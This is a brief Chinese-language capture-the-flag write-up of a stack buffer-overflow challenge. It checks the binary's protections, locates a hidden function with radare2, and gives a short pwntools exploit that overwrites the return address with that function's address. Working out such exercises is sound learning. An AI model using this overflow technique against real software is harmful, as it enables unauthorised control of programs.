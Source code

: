 首先確認有哪些安全選項有開啟   
![Kali-Linux-2021 2-vmware-amd64-2021-12-19-22-33-24](https://user-images.githubusercontent.com/91378841/146678757-a79ff416-c52b-45de-bca5-ad2561bb6146.png)
發現到Stack, PIE是關的   
而題目中也告訴我們是Buffer Overflow   
![image](https://user-images.githubusercontent.com/91378841/146678878-7204e8b6-fbd5-443d-a7bf-618309dc56e5.png)   
透過r2發現到特別的function   
![image](https://user-images.githubusercontent.com/91378841/146678836-65de2270-8d33-4459-a22c-2b58fe345ffe.png)   
位置為0x400646
![image](https://user-images.githubusercontent.com/91378841/146679027-cec17fbd-baac-4654-9771-2fbd5c6a89d9.png)   
那我們目標即是讓程式覆蓋到Return Address
![image](https://user-images.githubusercontent.com/91378841/146679167-11c7298c-fdd3-4c7c-905c-ed3ab6d19975.png)
撰寫exploit code如下:   
```python
from pwn import *

r=process("./bofe4sy")
payload = b'a'*40
r.sendlineafter(':',payload+p64(0x400646))
r.interactive()
```
![image](https://user-images.githubusercontent.com/91378841/146679524-9bab67df-1b07-4d1c-be6c-7b410957053e.png)
